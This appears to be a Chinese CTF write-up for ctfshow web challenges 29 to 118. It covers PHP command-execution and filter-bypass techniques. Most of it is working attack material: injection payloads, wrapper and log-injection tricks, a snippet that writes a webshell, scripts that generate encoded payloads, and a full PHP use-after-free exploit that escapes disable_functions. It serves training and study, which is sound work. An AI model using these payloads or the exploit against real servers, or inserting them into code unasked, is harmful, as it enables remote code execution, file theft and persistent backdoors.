写在前面
用于命令执行的常见姿势
system
exec
passthru
shell_exec
include(文件包含漏洞，配合php伪协议)
一些常见的绕过方式
Windows支持：
|直接执行后面的语句 ping 127.0.0.1|whoami
||前面出错执行后面的 ，前面为假 ping 2||whoami
& 前面的语句为假则直接执行后面的,前面可真可假 ping 127.0.0.1&whoami
&&前面的语句为假则直接出错，后面的也不执行，前面只能为真 ping 127.0.0.1&&whoami
%0a 回车
%1a 作为.bat文件的命令分隔符
Linux支持:
;前面的执行完执行后面的 ping 127.0.0.1;whoami
|管道符，显示后面的执行结果 ping 127.0.0.1|whoami
||当前面的执行出错时执行后面的 ping 1||whoami
& 前面的语句为假则直接执行后面的,前面可真可假 ping 127.0.0.1&whoami
&&前面的语句为假则直接出错，后面的也不执行，前面只能为真 ping 127.0.0.1&&whoami
%0a 回车
%0d 换行
过滤空格绕过
使用<代替空格
使用${IFS}代替空格
IFS变量的相关信息：
- Shell把变量IFS内的每一个字符都当做是一个分割符(delimeter)，用这些字符作为每一个字段的结束符来进行分割。
- 如果IFS没有设置，或者IFS的值被设置为”\t\n”(space, tab和 newline)，那么操作对象的开始和结束处的所有space, tab和newline序列都将被忽略，但是操作对象中间的space, tab和newline序列会作为界定符工作。
- 如果IFS值不是默认值(例如程序中对IFS进行设置过)，只有出现在IFS内的空白字符(可能是space, tab或newline中的一个或几个)才会在单词开始和结束处被忽略，这里说的是单词，而不是整个操作对象。
- IFS内的非空白字符多个连续出现时，每个非空白字符会被当做单独的分隔符看待，但是多个连续的空白字符会被当做一个分隔符看待。
- 如果IFS为空(“null”)，则不会进行单词分割。
使用$IFS代替空格
过滤斜杠/绕过
使用${HOME:0:1}代替
php伪协议
PHP 伪协议是 PHP 支持的协议与封装协议，几个 PHP 支持的伪协议如下。
| 伪协议 | 功能 |
|---|---|
| file:// | 访问本地文件系统 |
| http:// | 访问 HTTP(s) 网址 |
| php:// | 访问各个输入/输出流 |
| phar:// | PHP 归档 |
| zip:// | 压缩流 |
例如在 allow_url_include = on 时服务器上有个文件叫 index.php，且存在文件包含漏洞，这个时候就能用 php 伪协议直接把文件显示出来。
?file=php://filter/read=convert.base64-encode/resource=index.php稍微解释下这个做法，php://filter/ 是一种访问本地文件的协议，/read=convert.base64-encode/ 表示读取的方式是 base64 编码后，resource=index.php 表示目标文件为index.php。问什么要进行 base64 编码呢？如果不进行 base64 编码传入，index.php 就会直接执行，我们就看不到文件中的内容了。php 协议还常用 php://input，这可以访问请求的原始数据的只读流，可以读取 POST 请求的参数。
data 伪协议
php 5.2.0 起，数据流封装器开始有效，主要用于数据流的读取，如果传入的数据是PHP代码就会执行代码。使用方法为:
data://text/plain;base64,xxxx(base64编码后的数据)无回显命令执行
1.tee 从标准输入读取，再写入标准输出和文件。
2.反弹shell
3.dnslog外带
下划线的正则绕过
这个正则的绕过方法就是利用特性来绕过，可以用
[
(空格)
+
.
上面那几个字符任何一个都行，都可以被处理成_
web29-124
web29
只是过滤了简单的flag字符，直接使用system函数
Payload:
1、用egrep效果一样egrep=grep -E
c=system(“cat flg.php | grep -E ‘fl.g’ “);
2、此种方式需要右键源代码
c=system(“cat flg.php”);
3、c=system(“tac flg.php”);
4、倒序输出文本
c=system(“tac flag.php”);
5、
c=system(“cp fl*g.php a.txt “);
访问/a.txt
6、直接输出一个php这样就可以直接利用代码了,注意也是右键查看源代码
c=system(‘echo -e “ <?php \n error_reporting(0); \n $c= $_GET['c']; \n eval($c); “ > a.php’);
/a.php?c=system(“tac flag.php”);
web30
过滤了system函数，可以用反引号来命令执行
Payload:
1、nl命令，带着行号输出文本内容
c=echonl fl''ag.p''hp;
echocat fl''ag.p''hp;
echocat fl*ag.p*hp;
echocp fl*ag.p*hp 1.txt | cat 1.txt;
单引号：引号里面的内容会原封不动的显示出来（很简单，不做解释）
双引号：里面的特殊符号会被解析，变量也会被替换（\ 符号、空格会被解析）
echo \a -> a
echo “\a” -> \a
2、passthru函数，同system，同理exec，shell_exec也可以用，不过有点麻烦
c=passthru(“cat fla*”);
c=exec(passthru(“cat fla*”));
c=shell_exec(passthru(“cat fla*”));
web31
题目过滤了空格，单引号，小数点，
过滤了空格，可以使用%09替代；也可以使用{$IFS}，因为单引号被过滤了，所以如果使用c=passthru(“cat%09fla*”);或者{$IFS}都不会被解释为空格
所以构造如下Payload:
1、使用eval嵌套。具体参数：passthru 结合%09，也可以直接rce，因为没有对其他参数进行过滤
其中%09绕过空格 ?c=eval($_GET[1]);&1=passthru(“tac%09fla*”); 这里需要注意括号的闭合，&的连接。
2、使用参数：passthru结合 $IFS$9
其中$IFS$9绕过空格，注意转义$符号 ?
$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串。c=eval($_GET[1]);&1=passthru(“tac$IFS$9fla*”);
3、使用未被过滤的命令。passthru直接读取
?c=passthru(%22tac$IFS$9fla*%22); 也就是passthru(“tac$IFS$9fla*”);
4、使用pos(localeconv)来获取小数点
localeconv可以返回包括小数点在内的一个数组；pos去取出数组中当前第一个元素，也就是小数点。 scandir可以结合它扫描当前目录内容。 ?c=print_r(scandir(pos(localeconv()))); 可以看到当前目录下有flag.php 通过array_reverse把数组逆序，通过next取到第二个数组元素，也即flag.php 然后?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
web32(nginx日志注入)
过滤掉了flag|system|php|cat|sort|shell|.| |’|`|echo|;|( 包括点，单引号，反引号，分号，括号
所以这里需要使用include来构造Payload:
1、?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
其中?>代替分号，页面会显示flag.php内容的base64编码，解码即可获取flag
还有一种方法，日志注入
2、?c=include$_GET[1]?%3E&1=../../../../var/log/nginx/access.log
/var/log/nginx/access.log是nginx默认的access日志路径，访问该路径时，在User-Agent中写入一句话木马，然后用中国蚁剑连接即可3、?c=include$_GET[1]?>&1=php://input
也可以使用php://input然后使用post执行命令
web33
相比上一关只多过滤了“
所以web32Payload依旧适用
web34
多过滤一个: 之前payload依旧适用
web35
多过滤一个= < 之前payload依旧适用
web36
多过滤了数字 GET参数改为a即可
web37
if(!preg match("/flag/i"，$c)){
include($c);
echo $flag;
}1、使用php://input POST写入php代码
2、使用data协议
c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
web38
web37Payload照样打
web39
if(!preg_match("/flag/i", $c)){
include($c.".php");
} ?c=data://text/plain,
?>为php结束符号，后面拼接的.php会被忽略掉，不用管
web40(数组函数)
if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
eval($c);
}
这次添加了很多过滤，之前方法大多都不行了
1、c=show_source(next(array_reverse(scandir(pos(localeconv()))))); 或者 c=show_source(next(array_reverse(scandir(getcwd()))));
getcwd() 函数返回当前工作目录。它可以代替pos(localeconv())
localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为”.”
pos():输出数组第一个元素，不改变指针；
current() 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样
scandir() 函数返回指定目录中的文件和目录的数组。这里因为参数为”.”所以遍历当前目录
array_reverse():数组逆置
next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以
show_source():查看源码
pos() 函数返回数组中的当前元素的值。该函数是current()函数的别名。
每个数组中都有一个内部的指针指向它的”当前”元素，初始指向插入到数组中的第一个元素。
提示：该函数不会移动数组内部指针。
相关的方法：
current()返回数组中的当前元素的值。
end()将内部指针指向数组中的最后一个元素，并输出。
next()将内部指针指向数组中的下一个元素，并输出。
prev()将内部指针指向数组中的上一个元素，并输出。
reset()将内部指针指向数组中的第一个元素，并输出。
each()返回当前元素的键名和键值，并将内部指针向前移动。
2、c=eval(array_pop(next(get_defined_vars())));//需要POST传入参数为1=system(‘tac fl*’);
同理?cmd=system(“tac%20flag.php”);&c=eval(pos(pos(get_defined_vars())));
get_defined_vars() 返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户定义的变量，例如GET、POST、FILE等等。
next()将内部指针指向数组中的下一个元素，并输出。
array_pop() 函数删除数组中的最后一个元素并返回其值。
3、c=session_start();system(session_id());
passid=ls
通过cookie获得参数进行命令执行
受php版本影响 5.5 -7.1.9均可以执行，因为session_id规定为0-9，a-z,A-Z,-中的字符。在5.5以下及7.1以上均无法写入除此之外的内容。但是符合要求的字符还是可以的。
web41(rce_or)
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
eval("echo($c);");
} 过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个|运算符
根据正则匹配生成可用字符的集合rce_or.php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) {
for ($j=0; $j <256 ; $j++) {
if($i<16){
$hex_i='0'.dechex($i);
}
else{
$hex_i=dechex($i);
}
if($j<16){
$hex_j='0'.dechex($j);
}
else{
$hex_j=dechex($j);
}
$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
echo "";
}
else{
$a='%'.$hex_i;
$b='%'.$hex_j;
$c=(urldecode($a)|urldecode($b));
if (ord($c)>=32&ord($c)<=126) {
$contents=$contents.$c." ".$a." ".$b."\n";
}
}
}
}
fwrite($myfile,$contents);
fclose($myfile);
根据可用的字符生成Payload
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
def action(arg):
s1=""
s2=""
for i in arg:
f=open("rce_or.txt","r")
while True:
t=f.readline()
if t=="":
break
if t[0]==i:
#print(i)
s1+=t[2:5]
s2+=t[6:9]
break
f.close()
output="(\""+s1+"\"|\""+s2+"\")"
return(output)
while True:
param=action(input("\n[+] your function：") )+action(input("[+] your command："))
print("\n[*] result:\n"+param)

web42
$c=$_GET['c'];
system($c." >/dev/null 2>&1"); Payload:
?c=cat flag.php; ?c=cat flag.php|| ?c=cat flag.php%26(&) c=nl flag.php%0a ?c=echo
tac fl*||使用 “ ; “ “ || “ “ & “ “ && “ 分隔
/dev/null 2>&1 意思是将标准输出和标准错误都重定向到 /dev/null 即不回显
; 分号
| 只执行后面那条命令
|| 只执行前面那条命令
& 两条命令都会执行
&& 两条命令都会执行
web43
多过滤了cat,\和；，使用其他Payload即可
web44
多过滤了flag，使用fla*即可
web45
过滤了空格，使用$IFS或者%09绕过即可
web46
过滤了$和*，Payload如下：
1、?c=nl<fla’’g.php||
2、?c=ca\t<fl\ag.php||
web47
preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)Payload:
tac%09fl’’ag.php||
…….
web48
preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)多过滤了一些函数，不过之前Payload可以继续打
web49
preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)过滤了%，但是可以<
web50
preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)同上
web51
preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)ban了tac但是可以用nl
web52
ban了<>，但是可以用$IFS,而且这次flag放在了根目录
Payload:
?c=nl$IFS/fl’’ag||
web53
if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
echo($c);
$d = system($c);
echo "<br>".$d;
}else{
echo 'no';
}Payload:
1、?c=ta’’c${IFS}f’’lag.php
2、s’’ort${IFS}f???????%0a
web54
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
system($c);
}Payload:
1、?c=/bin/?at${IFS}f???????
2、mv flag.php t.txt
web55(无数字字母的命令执行)
preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)过滤了所有字母

利用post上传文件，然后使用.(source)执行，一般上传后文件在/tmp/php?????[@-[]

[参考文章]: https://blog.csdn.net/qq_46091464/article/details/108513145 “无字母数字的命令执行”
web56
方法同上
web57(取反)
//flag in 36.php
preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)过滤了字母数字
通过$(())操作构造出36： $(()) ：代表做一次运算，因为里面为空，也表示值为0
$(( ~$(()) )) ：对0作取反运算，值为-1
$(( $((~$(()))) $((~$(()))) ))： -1-1，也就是(-1)+(-1)为-2，所以值为-2
$(( ~$(( $((~$(()))) $((~$(()))) )) )) ：再对-2做一次取反得到1，所以值为1
故我们在$(( ~$(( )) ))里面放37个$((~$(())))，得到-37，取反即可得到36
Payload:
?c=$((
$(($(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))$(($(())))))))
web58
if(isset($_POST['c'])){
$c= $_POST['c'];
eval($c);
}Payload:
1、c=show_source(‘flag.php’);
2、c=highlight_file(“flag.php”);
3、c=include($_POST[‘w’]);&w=php://filter/convert.base64-encode/resource=flag.php
4、c=include(“flag.php”);var_dump(get_defined_vars());
web59
Payload同上
web60
Payload同上
web61
Payload同上
web62
Payload同上，不过ban了highlight_file函数
web63
Payload同上
web64
Payload同上
web65
ban了show_source,然后使用php伪协议读取flag.php时，源码显示flag不在这，于是使用data协议读取根目录看到flag.txt
<?php
print_r(scandir('/'));
?>
因为大部分直接可以命令执行的函数被ban了，看了wp没想到highlight_file没被ban
web66
Payload同上
web67
highlight_file被ban了，但是可以直接用php伪协议读取
web68
Payload同上
implode：把数组元素组合为字符串
冷门函数：读取函数readgzfile：可以读取非gz格式的文件
Payload：
1、?c=echo(implode(‘—‘,scandir(“/“)));
2、?c=readgzfile(‘/flag.txt’);
web69
虽然有几个报错但是flag还是出来了
web70
if(isset($_POST['c'])){
$c= $_POST['c'];
eval($c);
$s = ob_get_contents();
ob_end_clean();
echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
highlight_file(__FILE__);
}虽然php伪协议可以读，但是结果把数字字母替换了，但是可以执行php代码让后面的匹配缓冲区不执行直接退出exit或die
Payload:
c=readgzfile(‘/flag.txt’);exit(0);
c=include(‘/flag.txt’);exit(0);
web71
Payload同上
web72(glob协议+waf绕过)
flag不在/下了，但是很多查询的函数被ban了
使用glob://伪协议绕过open_basedir
glob可以遍历目录，并且不受disable_functions的限制。
c=?><?php $a=new DirectoryIterator("glob://./*");
foreach($a as $f)
{
echo($f->__toString().' ');
}
exit(0);
?>仔细看看这个代码
<?php
$a=new DirectoryIterator("glob:///*");
# 利用DirectoryIterator($path)可以实现遍历目录下的所有文件
# glob:// — 查找匹配的文件路径模式
# DirectoryIterator("glob:///*") 遍历根目录里所有文件
foreach($a as $f) #循环遍历输出，并以空格为分隔
{echo($f->__toString().' ');
} exit(0);
?>
其实不加前面?><?php也是可以的。eval里的语句可以视为在当前php文件里加了几条语句，这些语句必须是完整的，即必须以;或者?>结尾来结束语句，但是eval里的?>不会闭合当前的php文件，所以当前php页面后续的语句都是会执行的。
可以看一下下面的图片，eval里的语句可以修改文件的变量值，但是?>并不会闭合外面的PHP语句。

c=function ctfshow($cmd) { global $abc, $helper, $backtrace;
class Vuln {
public $a;
public function __destruct() {
global $backtrace;
unset($this->a);
$backtrace = (new Exception)->getTrace();
if(!isset($backtrace[1]['args'])) {
$backtrace = debug_backtrace();
}
}
}
class Helper {
public $a, $b, $c, $d;
}
function str2ptr(&$str, $p = 0, $s = 8) {
$address = 0;
for($j = $s-1; $j >= 0; $j--) {
$address <<= 8;
$address |= ord($str[$p+$j]);
}
return $address;
}
function ptr2str($ptr, $m = 8) {
$out = "";
for ($i=0; $i < $m; $i++) {
$out .= sprintf("%c",($ptr & 0xff));
$ptr >>= 8;
}
return $out;
}
function write(&$str, $p, $v, $n = 8) {
$i = 0;
for($i = 0; $i < $n; $i++) {
$str[$p + $i] = sprintf("%c",($v & 0xff));
$v >>= 8;
}
}
function leak($addr, $p = 0, $s = 8) {
global $abc, $helper;
write($abc, 0x68, $addr + $p - 0x10);
$leak = strlen($helper->a);
if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
return $leak;
}
function parse_elf($base) {
$e_type = leak($base, 0x10, 2);
$e_phoff = leak($base, 0x20);
$e_phentsize = leak($base, 0x36, 2);
$e_phnum = leak($base, 0x38, 2);
for($i = 0; $i < $e_phnum; $i++) {
$header = $base + $e_phoff + $i * $e_phentsize;
$p_type = leak($header, 0, 4);
$p_flags = leak($header, 4, 4);
$p_vaddr = leak($header, 0x10);
$p_memsz = leak($header, 0x28);
if($p_type == 1 && $p_flags == 6) {
$data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
$data_size = $p_memsz;
} else if($p_type == 1 && $p_flags == 5) {
$text_size = $p_memsz;
}
}
if(!$data_addr || !$text_size || !$data_size)
return false;
return [$data_addr, $text_size, $data_size];
}
function get_basic_funcs($base, $elf) {
list($data_addr, $text_size, $data_size) = $elf;
for($i = 0; $i < $data_size / 8; $i++) {
$leak = leak($data_addr, $i * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
if($deref != 0x746e6174736e6f63)
continue;
} else continue;
$leak = leak($data_addr, ($i + 4) * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
if($deref != 0x786568326e6962)
continue;
} else continue;
return $data_addr + $i * 8;
}
}
function get_binary_base($binary_leak) {
$base = 0;
$start = $binary_leak & 0xfffffffffffff000;
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$leak = leak($addr, 0, 7);
if($leak == 0x10102464c457f) {
return $addr;
}
}
}
function get_system($basic_funcs) {
$addr = $basic_funcs;
do {
$f_entry = leak($addr);
$f_name = leak($f_entry, 0, 6);
if($f_name == 0x6d6574737973) {
return leak($addr + 8);
}
$addr += 0x20;
} while($f_entry != 0);
return false;
}
function trigger_uaf($arg) {
$arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
$vuln = new Vuln();
$vuln->a = $arg;
}
if(stristr(PHP_OS, 'WIN')) {
die('This PoC is for *nix systems only.');
}
$n_alloc = 10;
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
$contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
trigger_uaf('x');
$abc = $backtrace[1]['args'][0];
$helper = new Helper;
$helper->b = function ($x) { };
if(strlen($abc) == 79 || strlen($abc) == 0) {
die("UAF failed");
}
$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x58);
$abc_addr = $php_heap - 0xc8;
write($abc, 0x60, 2);
write($abc, 0x70, 6);
write($abc, 0x10, $abc_addr + 0x60);
write($abc, 0x18, 0xa);
$closure_obj = str2ptr($abc, 0x20);
$binary_leak = leak($closure_handlers, 8);
if(!($base = get_binary_base($binary_leak))) {
die("Couldn't determine binary base address");
}
if(!($elf = parse_elf($base))) {
die("Couldn't parse ELF header");
}
if(!($basic_funcs = get_basic_funcs($base, $elf))) {
die("Couldn't get basic_functions address");
}
if(!($zif_system = get_system($basic_funcs))) {
die("Couldn't get zif_system address");
}
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4);
write($abc, 0xd0 + 0x68, $zif_system);
($helper->b)($cmd);
exit();
}
ctfshow("cat /flag0.txt");ob_end_flush(); ?>web73
首先查找flag位置,然后使用文件包含得到flag
Payload:
1、c=var_export(scandir(‘/‘));exit(0);c=require_once(‘/flagc.txt’);exit(0);
2、c=?>__toString().' '); } exit(0); ?>
c=include(‘flagc.txt’);exit(0);
web74
scandir函数被ban了，使用DirectoryIterator类，flag在/flagx.txt
或者使用glob协议
Payload:
c=var_export(glob(‘../../..’.’/*’));exit(0);
web75(Sql load_file)
可以查到flag位置：/flag36.txt 但是include被ban了，之前的poc因为strlen被禁了获取不到system地址也没法用了
可以使用mysql的load_file函数
先查询数据库
c=$dsn = "mysql:host=localhost;dbname=information_schema";
$db = new PDO($dsn, 'root', 'root');
$rs = $db->query("select database()");
## $rs = $db->query("select group_concat(SCHEMA_NAME) from SCHEMATA");
foreach($rs as $row){
echo($row[0])."|";
}exit();
查到了ctftraining的数据库，然后使用load_file读取flag
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row) {echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e- >getMessage();exit(0);}exit(0);
web76
Payload同上
web77(FFI php7.4以上)
FFI，php7.4以上才有
Payload:
$ffi = FFI::cdef(“int system(const char *command);”);//创建一个system对象
$a=’/readflag > 1.txt’; //没有回显，需要重定向到文件
$ffi->system($a); //通过$ffi去调用system函数
web118(Bash内置变量)

web119
